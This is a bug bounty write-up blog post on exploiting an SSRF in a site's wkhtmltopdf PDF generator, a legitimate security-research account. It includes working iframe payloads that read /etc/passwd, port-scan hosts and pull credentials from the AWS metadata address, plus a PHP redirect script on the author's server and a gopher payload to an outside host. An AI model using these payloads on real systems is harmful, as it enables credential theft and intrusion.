  - - -  
 t i t l e :   " [ E N ]   -   E x p l o i t i n g   m y   f i r s t   S S R F "  
 d a t e :   2 0 2 0 - 0 3 - 0 1 T 1 4 : 0 0 : 0 0 + 0 2 : 0 0  
 d r a f t :   f a l s e  
 t a g s :   [ " B u g B o u n t y " ,   " S S R F " ,   " T i p s " ,   " W r i t e u p " ]  
 - - -  
  
 T h i s   w e e k   o n   a   B u g B o u n t y   p r o g r a m   w h i c h   I   l e f t   a s i d e   I   f o u n d   m y   f i r s t   S S R F ,   h e r e   i s   m y   w r i t e u p .  
  
 # #   R e c o n  
 T h e   s c o p e   i s   r e s t r i c t e d   t o   t h e   w e b s i t e   a n d   i t s   A P I ,   r a t h e r   b a s i c   i t   a l l o w s   t o   r e g i s t e r   a s   a   s i m p l e   u s e r   a n d   h a s   o n l y   a   f e w   f e a t u r e s .    
  
 T h e   p r o g r a m   h a s   b e e n   o p e n   f o r   s e v e r a l   m o n t h s   a l r e a d y ,   I   a p p r o a c h e d   t h e   s i t e   t h i n k i n g   I   p r o b a b l y   w o n ' t   f i n d   m u c h .    
  
 H o w e v e r   f r o m   t h e   f i r s t   h o u r s   I   a l r e a d y   h a d   s e v e r a l   P 2   ( I D O R ) .   A   s c o p e   p e r h a p s   m o r e   i n t e r e s t i n g   t h a n   e x p e c t e d   . . .   s o   I   s p e n t   s o m e   t i m e   t o   o b s e r v e   t h e   v a r i o u s   f e a t u r e s   a n d   h o w   t h e y   w o r k   a s   a   s i m p l e   u s e r .  
  
 A f t e r   s o m e   t e s t s   I   n o t i c e d   a   f e a t u r e   t h a t   a l l o w s   t o   g e n e r a t e   a   P D F   w i t h   d a t a   e n t e r e d   b y   t h e   u s e r ,   t h e   s o f t w a r e   u s e d   i s   * W K H T M L T O P D F *   i n   i t s   v e r s i o n   * 0 . 1 2 . 3 * .    
  
 I n t e r e s t i n g ,   e s p e c i a l l y   s i n c e   r e c e n t l y   I   c o u l d   r e a d   t h e   e x c e l l e n t   p r e s e n t a t i o n   o f   N a h a m s e c   " [ O w n i n g   t h e   c l o u d   t h r o u g h   S S R F   a n d   P D F   g e n e r a t o r s ] ( h t t p s : / / d o c s . g o o g l e . c o m / p r e s e n t a t i o n / d / 1 J d I j H H P s F S g L b a J c H m M k E 9 0 4 j m w P M 4 x d h E u w h y 2 e b v o / e d i t # s l i d e = i d . g 5 d f 2 2 4 3 0 2 8 _ 2 _ 8 1 ) " ,   i f   I   r e t a i n e d   a t   l e a s t   1   t h i n g   f r o m   t h i s   p r e s e n t a t i o n   i t ' s   t h e   s e n t e n c e   " * I f   y o u   s e e   a   P D F   g e n e r a t o r   s o m e w h e r e ,   9 / 1 0   i t ' s   v u l n e r a b l e * " .  
  
 A f t e r   s o m e   t e s t s   I   f i n a l l y   d i d n ' t   m a n a g e   t o   e x p l o i t   t h e   f e a t u r e ,   a t   l e a s t   n o t   o n   t h i s   e n d p o i n t   !    
  
 W h i l e   c o n t i n u i n g   t o   u s e   t h e   s i t e   a n d   i t s   f e a t u r e s   I   c a m e   a c r o s s   a   p a g e   t h a t   a l l o w e d   m e   t o   a d d   i t e m s   a n d   t h e n   g e n e r a t e   a   P D F   o f   t h e m ,   o k   . . .   l e t ' s   t r y   a g a i n .   I   f i r s t   s t a r t e d   w i t h   a   b a s i c   p a y l o a d :  
  
 ` ` ` h t m l  
 < b > T E S T < / b >  
 ` ` `  
  
 N o t h i n g   . . .   t r y   s o m e t h i n g   e l s e   :  
  
 ` ` ` h t m l  
 < a   h r e f = " h t t p s : / / g o o g l e . f r " > x x x < / a >  
 ` ` `  
  
 T h i s   t i m e ,   i t ' s   w e l l   r e f l e c t e d   i n   t h e   P D F   a n d   t h e   l i n k   i s   c l i c k a b l e ,   s o   i t ' s   p o s s i b l e   t o   i n j e c t   H T M L !  
  
 # #   E x p l o i t a t i o n  
  
 I n   t h e   r u s h   I   d i r e c t l y   w a n t e d   t o   l o a d   t h e   c o n t e n t s   o f   t h e   f i l e   " / e t c / p a s s w d "   w i t h   t h e   f o l l o w i n g   p a y l o a d   :  
 ` ` ` h t m l  
 < i f r a m e   s r c = " f i l e : / / / e t c / p a s s w d " >  
 ` ` `  
  
 U n f o r t u n a t e l y   t h e   i f r a m e   w a s   e m p t y ,   s o   I   t e s t e d   a   f i r s t   p a y l o a d   t o   c h e c k   t h a t   i t   w a s   p o s s i b l e   t o   i n t e r a c t   w i t h   a n   e x t e r n a l   r e s o u r c e .  
 ` ` ` h t m l  
 < i f r a m e   s r c = " h t t p s : / / { M Y _ S E R V E R } / x . p n g " >  
 ` ` `  
  
 W h i l e   g e n e r a t i n g   t h e   P D F ,   I   r e c e i v e d   t h e   r e q u e s t   t o   m y   s e r v e r ,   w h i c h   c o n f i r m e d   t h a t   i t   i s   p o s s i b l e   t o   u s e   a n   i f r a m e ,   s o   I   t e s t e d   v a r i o u s   t e c h n i q u e s ,   i n c l u d i n g   p o r t   s c a n n i n g   w i t h   a   p a y l o a d   o f   t h e   t y p e   :  
 ` ` ` h t m l  
 < i f r a m e   s r c = " h t t p s : / / d o m a i n . t l d : 8 0 " >  
 < i f r a m e   s r c = " h t t p s : / / d o m a i n . t l d : 2 5 " >  
 < i f r a m e   s r c = " h t t p s : / / d o m a i n . t l d : 2 2 " >  
 ` ` `  
  
 W h e n   a   p o r t   w a s   n o t   a v a i l a b l e   I   g o t   a   5 0 0   e r r o r   f r o m   t h e   s e r v e r ,   o k   s o   I   g o t   a   b l i n d   S S R F   b u t   I   w a n t e d   m o r e   t h a n   a   s i m p l e   p o r t   s c a n !   T h e n   I   r e m e m b e r e d   t h a t   a t   o n e   p o i n t   i n   t h e   s i t e   w h e n   y o u   w a n t   t o   a c c e s s   a   d o c u m e n t   t h e   U R L   i s   o f   t h e   t y p e   * h t t p s : / / d o m a i n . t l d / s 3 / g e t / d o c u m e n t / 8 / { R E S S O U R C E _ I D } * .  
  
 ! [ ] ( / i m a g e s / 2 0 2 0 / b o u n t y / S S R F _ S 3 . p n g )  
  
 H u m .   . . ,   * S 3 *   ?   M a y b e   a n   A W S   i n s t a n c e ,   l e t ' s   t e s t   t h a t   :  
  
 ` ` ` h t m l  
 < i f r a m e   s r c = " h t t p : / / 1 6 9 . 2 5 4 . 1 6 9 . 2 5 4 " >  
 ` ` `  
  
 B o o m   !   I   h a v e   a c c e s s   t o   t h e   A W S   i n s t a n c e   a n d   i t s   c o n t e n t ,   i n c l u d i n g   c r e d e n t i a l s   ( A P I   t o k e n s ,   e t c . . . )   w h i c h   a r e   p r i v a t e   a n d   s e n s i t i v e   e l e m e n t s .  
  
 ! [ ] ( / i m a g e s / 2 0 2 0 / b o u n t y / S S R F _ A W S _ K E Y . p n g )  
  
 # #   D i g g i n g  
  
 O k   c o o l ,   t h i s   S S R F   i s   a l r e a d y   c r i t i c a l ,   b u t   i n   t h e   e n d   I   w a n t e d   t o   l o a d   a   l o c a l   f i l e   o n   t h e   s e r v e r   s u c h   a s   " * / e t c / p a s s w d * " ,   a f t e r   s o m e   t e s t s   a n d   b y p a s s i n g   t e c h n i q u e   I   a l w a y s   e n d   u p   w i t h   a n   e m p t y   i f r a m e .  
  
 T h e n   w h i l e   t a l k i n g   w i t h   a   h u n t e r   f r i e n d ,   h e   s h o w e d   m e   a   v e r y   i n t e r e s t i n g   t e c h n i q u e ,   a   P H P   c o d e   s n i p p e t   t h a t   a l l o w s   t o   i n c l u d e   a n   i f r a m e   t o   a n   e x t e r n a l   U R L   t h a t   w i l l   r e d i r e c t   t o   1 2 7 . 0 . 0 . 1   b u t   w i t h   t h e   p o s s i b i l i t y   t o   i n c l u d e   a   p a r a m e t e r   s u c h   a s   " * f i l e : / / * " "   t o   l o a d   a   l o c a l   f i l e .  
  
 T h e   c o d e   s n i p p e t   i s   a s   f o l l o w s :  
 ` ` ` p h p  
 $ l o c   =   " h t t p : / / 1 2 7 . 0 . 0 . 1 / " ;  
  
 i f ( i s s e t ( $ _ G E T [ ' a ' ] ) ) {  
         $ l o c   =   $ _ G E T [ ' a ' ] ;  
 }  
 h e a d e r ( ' L o c a t i o n :   ' . $ l o c ) ;  
 ` ` `  
  
 S o   I   q u i c k l y   s e t   i t   u p   o n   m y   s e r v e r   ( Y o u   w i l l   h a v e   u n d e r s t o o d   t h a t   i t   i s   n e c e s s a r y   t o   h a v e   a   w e b   s e r v e r   w i t h   P H P   i n s t a l l e d   f o r   t h i s   p i e c e   o f   c o d e   t o   b e   u s a b l e ) .  
  
 I   c a n   n o w   u s e   t h e   f o l l o w i n g   p a y l o a d :  
 ` ` ` h t m l  
 < i f r a m e   s r c = " h t t p s : / / m y _ s e r v e r . t l d / s s r f . p h p ? a = f i l e : / / / e t c / p a s s w d " >  
 ` ` `  
  
 I   g e n e r a t e   t h e   n e w   P D F   a n d   h o p !   I   h a v e   t h e   c o n t e n t   o f   t h e   d e s i r e d   f i l e   : D  
  
 # #   C o n c l u s i o n  
 T h i s   S S R F   i s   i n t e r e s t i n g   b e c a u s e   e v e n   i f   i t   m a y   r e m a i n   q u i t e   " s i m p l e " ,   i t   s h o w s   t h a t   y o u   s h o u l d   n o t   s t o p   a t   t h e   f i r s t   p a y l o a d   t h a t   w o r k s   ( t h e   p o r t   s c a n   i n   m y   c a s e )   a n d   t r y   t o   d i g   f o r   t h e   m o s t   c r i t i c a l   s c e n a r i o .  
  
 I n   t h e   e n d ,   b y   l o o k i n g   c l o s e r ,   o n   t h e   G i t h u b   r e p o s i t o r y   o f   [ P a y l o a d A l l T h e T h i n g s ] ( h t t p s : / / g i t h u b . c o m / s w i s s k y r e p o / P a y l o a d s A l l T h e T h i n g s )   i t   i s   p o s s i b l e   t o   f i n d   t h e   f o l l o w i n g   p a y l o a d :  
 ` ` ` p h p  
 < ? p h p  
     h e a d e r ( " L o c a t i o n :   g o p h e r : / / h a c k 3 r . s i t e : 1 3 3 7 / _ S S R F % 0 A T e s t ! " ) ;  
 ? >  
 ` ` `  
  
 T h a t   y o u   o n l y   h a v e   t o   m o d i f y   i n   t h i s   t o   g e t   t h e   s a m e   r e s u l t   a s   a b o v e :  
 ` ` ` p h p  
 < ? p h p  
   h e a d e r ( " L o c a t i o n :   f i l e : / / / e t c / p a s s w d " ) ;  
 ? >  
 ` ` `  
  
 T h e   a d v a n t a g e   o f   t h e   c o d e   s n i p p e t   a b o v e   i s   t h a t   i t   i s   p o s s i b l e   t o   d i r e c t l y   i n c l u d e   t h e   w r a p p e r   w i t h   t h e   d e s i r e d   p a y l o a d   a s   a   p a r a m e t e r   r a t h e r   t h a n   m o d i f y i n g   t h e   c o n t e n t   o f   t h e   p h p   f i l e   e a c h   t i m e .  
  
 I n i t i a l l y   I   h a d n ' t   w a t c h e d   t h i s   p r o g r a m   b e c a u s e   I   d i d n ' t   f i n d   i t   i n t e r e s t i n g ,   i t ' s   o n l y   s e v e r a l   m o n t h s   a f t e r   I   d e c i d e d   t o   h a v e   a   l o o k   a t   i t ,   a l t h o u g h   s e v e r a l   h u n t e r s   h a v e   r a i s e d   v u l n e r a b i l i t i e s   I   l e a r n e d   h e r e   t h a t   i t ' s   a l w a y s   i n t e r e s t i n g   t o   g o   b a c k   t o   a n   " o l d   s c o p e " .  
  
 T h a t   d o e s n ' t   m e a n   t h e   o t h e r   h u n t e r s   w e r e   b a d   b e c a u s e   e a c h   h u n t e r   h a s   i t s   o w n   m e t h o d o l o g y   a n d   f a v o r i t e   v u l n e r a b i l i t i e s ,   e s p e c i a l l y   s i n c e   t h i s   i s   a   p r o d u c t i o n   s i t e   s o   t h e r e   i s   a   s t r o n g   c h a n c e   t h a t   t h e r e   h a v e   b e e n   c h a n g e s   o r   n e w   f e a t u r e s   t h a t   w e r e n ' t   a v a i l a b l e   b e f o r e .